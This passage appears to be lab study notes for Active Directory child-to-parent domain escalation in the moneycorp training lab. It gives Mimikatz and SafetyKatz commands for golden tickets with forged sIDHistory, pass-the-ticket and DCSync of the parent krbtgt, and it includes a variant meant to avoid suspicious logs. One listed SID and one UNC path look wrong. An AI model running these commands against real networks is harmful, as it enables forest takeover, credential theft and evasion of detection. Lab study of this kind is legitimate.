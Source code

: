 - Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using the domain trust key.


### Child to Parent using krbtgt hash

We will abuse sIDhistory once again:
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-	5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

> In the above command, the mimkatz option **/sids** is forcefully setting the **sIDHistory** for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.

On any machine of the current domain:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
ls \\mcorp-dc.moneycorp.local.kirbi\c$ 
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local 
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Avoid suspicious logs by using Domain Controllers group:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9  /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

> S-1-5-21-2578538781-2508153159-3419410681-516 - Domain Controllers
> S-1-5-9 - Enterprise Domain Controllers


Learning Objective 19

- Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using dollarcorp's krbtgt hash.




## Trust Flow Across Forest
